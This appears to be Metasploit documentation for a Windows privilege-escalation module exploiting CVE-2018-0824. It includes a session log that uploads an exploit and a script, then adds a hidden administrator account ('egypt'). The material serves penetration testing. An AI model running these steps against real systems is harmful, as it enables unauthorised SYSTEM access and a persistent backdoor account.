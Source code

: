 ## Vulnerable Application

This is a post exploitation module for local privilege escalation bug
which exists in Microsoft COM for windows when it fails to properly
handle serialized objects.

* https://www.phpmyadmin.net/downloads/
* https://github.com/codewhitesec/UnmarshalPwn/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-0824

### Limitations

The payload will not spawn ant independent session it simply creates process with the system privilege.
If the system is not vulnerable, then payload will execute but new process will not spawn.

## Verification Steps

If you want to confirm the vulnerability before you add user or perform any other sensitive action.

1. `set COMMAND /s notepad.exe`
2. `run`

Confirmation:

Then go to meterpreter session and confirm running process (ps)
If you see notepad.exe running as SYSTEM then that is as indication of vulnerable system.

## Options

### COMMAND

This command will be executed on successful escalation.</br>

## Scenarios

### Windows 10 (Build 15063)

```
meterpreter > sysinfo
Computer        : WIN10X64-1703
OS              : Windows 10 (Build 15063).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > execute -f cmd.exe -i -H
Process 4868 created.
Channel 7 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\msfuser\Downloads>net user
net user

User accounts for \\WIN10X64-1703

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
msfuser                  
The command completed successfully.


C:\Users\msfuser\Downloads>exit           
exit
meterpreter > background
[*] Backgrounding session 1...
msf post(windows/escalate/unmarshal_cmd_exec) > show options

Module options (post/windows/escalate/unmarshal_cmd_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMMAND                        no        The command to execute as SYSTEM (Can only be a cmd.exe builtin or Windows binary, (net user /add %RAND% %RAND% & net localgroup administrators /add <user>).
   EXPLOIT_NAME                   no        The filename to use for the exploit binary (%RAND% by default).
   PATH                           no        Path to write binaries (%TEMP% by default).
   SCRIPT_NAME                    no        The filename to use for the COM script file (%RAND% by default).
   SESSION                        yes       The session to run this module on.

msf post(windows/escalate/unmarshal_cmd_exec) > set command 'net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt'
command => net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
msf post(windows/escalate/unmarshal_cmd_exec) > set verbose true
verbose => true
msf post(windows/escalate/unmarshal_cmd_exec) > run

[!] SESSION may not be compatible with this module.
[*] Attempting to PrivEsc on WIN10X64-1703 via session ID: 1
[*] exploit path is: C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] script path is: C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] command is: net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
[*] Attempting to PrivEsc on WIN10X64-1703 via session ID: 1
[*] Uploading Script to C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] Creating the sct file with command net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
[*] script_template_data.length =  306
[*] Writing 376 bytes to C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct to target
[*] Script uploaded successfully
[*] Uploading Exploit to C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] Exploit uploaded on WIN10X64-1703 to C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] Launching Exploit...
[*] Query for IStorage
Call:  Stat
End:  Stat
Query for IMarshal
Call:  GetMarshalSizeMax
Unknown IID: {ECC8691B-C1DB-4DC0-855E-65F6C551AF49} 0000017F6C3E05B0
Query for IMarshal
Call:  GetUnmarshalClass
Call:  GetMarshalSizeMax
Call:  MarshalInterface
[+] Exploit Completed
[*] C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] Post module execution completed
msf post(windows/escalate/unmarshal_cmd_exec) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > execute -f cmd.exe -i -H
Process 1780 created.
Channel 11 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\msfuser\Downloads>net user 
net user

User accounts for \\WIN10X64-1703

-------------------------------------------------------------------------------
Administrator            DefaultAccount           egypt                    
Guest                    msfuser                  
The command completed successfully.


C:\Users\msfuser\Downloads>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
egypt
msfuser
The command completed successfully.


C:\Users\msfuser\Downloads>

```
